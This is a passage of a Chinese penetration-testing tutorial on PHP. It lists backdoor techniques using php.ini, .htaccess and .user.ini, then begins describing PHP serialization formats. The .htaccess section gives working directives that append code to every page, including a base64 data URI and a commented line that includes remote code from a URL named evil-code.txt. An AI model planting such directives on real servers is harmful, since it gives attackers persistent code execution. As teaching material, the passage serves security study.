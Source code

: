 # WEB安全渗透测试基础知识（十二）

**PHP**

4.1.1. 后门

4.1.1.1. php.ini构成的后门

利用 auto_prepend_file 和 include_path


---
4.1.1.2. .htaccess后门

php_value auto_append_file .htaccess 
#<?php phpinfo(); 

php_flag allow_url_include 1 
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw== 
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B 
#php_value auto_append_file https://sektioneins.de/evil-code.txt

---
4.1.1.3. .user.ini文件构成的PHP后门

.user.ini可运行于所有以fastcgi运行的server。利用方式同php.in

---
4.1.2. 反序列化

4.1.2.1. PHP序列化实现

PHP序列化处理共有三种，分别为php_serialize、php_binary和 WDDX，默认为php_serialize，可通过配置中的 session.serialize_handler 修改。  

其中php_serialize的实现在 php-src/ext/standard/var.c 中，主要函数为 php_var_serialize_intern ，序列化后的格式如下：  

- boolean

b:<value>;

b:1; // true

b:0; // false

- integer

i:<value>;

- double

d:<value>;

- NULL

N;

- string

s:<length>:"<value>";
